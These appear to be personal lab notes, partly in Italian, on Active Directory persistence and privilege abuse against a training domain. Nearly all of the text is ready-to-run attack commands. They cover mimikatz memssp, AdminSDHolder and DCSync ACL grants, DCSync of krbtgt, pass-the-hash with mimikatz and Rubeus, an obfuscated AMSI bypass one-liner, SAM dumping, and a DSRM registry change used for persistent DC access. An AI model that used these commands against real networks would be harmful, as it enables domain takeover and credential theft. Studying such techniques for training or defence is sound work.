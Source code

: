 *tools*
- [samratashok/ADModule: Microsoft signed ActiveDirectory PowerShell module (github.com)](https://github.com/samratashok/ADModule)
- [samratashok/RACE: RACE is a PowerShell module for executing ACL attacks against Windows targets. (github.com)](https://github.com/samratashok/RACE)
- [PowershellMafia/PowerView (github.com)](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

### **CUSTOM SSP**
*With MimiKatz*
o uso di mimilib.dll o 
```powershell
Invoke-Mimikatz -Command '"misc::memssp"'
```
### **ACLs – AdminSDHolder**
Modifica le acl per aggiungerti il permesso di full control sull'user
*Add FullControl permissions for a user to the AdminSDHolder using PowerView as DA*
```PowerView
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student1 -Rights All -Verbose
```
*Using ActiveDirectory Module and Set-ADACL*
```AD_module
Set-ADACL -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,D C=local' -Principal student1 -Verbose
```
*Use of race toolkit*
```AD_module
Set-DCPermissions -Method AdminSDHolder -SAMAccountName student1 -Right GenericAll -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Verbose
```


### **ACLs – Right Abuse**
*Add FullControl rights*
Usando powershell
```Powershell
Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' - PrincipalSamAccountName student1 -Rights All -Verbose
```
Using ActiveDirectory Module and Set-ADACL
```AD_module
Set-ADACL -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal student1 -Verbose
```
*Add rights for DCSync*
usando powershell
```Powershell
Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' - PrincipalSamAccountName student1 -Rights DCSync -Verbose
```
Using ActiveDirectory Module and Set-ADACL
```AD_module
Set-ADACL -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal student1 -GUIDRight DCSync -Verbose
```
Poi avvia DCSync  con mimikatz
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

### **DC persistence by abusing the DSRM service.**
Firtsly dump the hashes from the dc
Open a session on the dc
```powershell
. C:\AD\Tools\Invoke-Mimi.ps1
```
```powershell
Invoke-Mimi -Command '"sekurlsa::pth /user:<ADMIN USER> /domain:<DOMAIN> /ntlm:<HASH> /run:cmd.exe"'
```
or using Rubeus
```cmd
C:\AD\Tools\Rubeus.exe asktgt /user:<ADMIN USER> /aes256:>aes256 HASH> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
Launch Invishell e establish the session
```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```
```powershell
$sess = New-PSSession dcorp-dc
```
Bypass the AMSI
```powershell
Enter-PSSession -Session $sess
```
```powershell
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```
```powershell
exit
```
Load and launch Invoke-Mimi
```powershell
Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimi.ps1 -Session $sess
```
```powershell
Enter-PSSession -Session $sess
```
```powershell
Invoke-Mimi -Command '"token::elevate" "lsadump::sam"'
```
The DSRM administrator is not allowed to logon to the DC from network. So we need to change the logon behavior for the account by modifying registry on the DC
```powershell
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```
![[Pasted image 20231025115059.png]]
Now from the attack box we can simply pas the hash and use the dsrm administrator session
```powershell
Invoke-Mimi -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'
```
```powershell
ls \\dcorp-dc.dollarcorp.moneycorp.local\c$
```
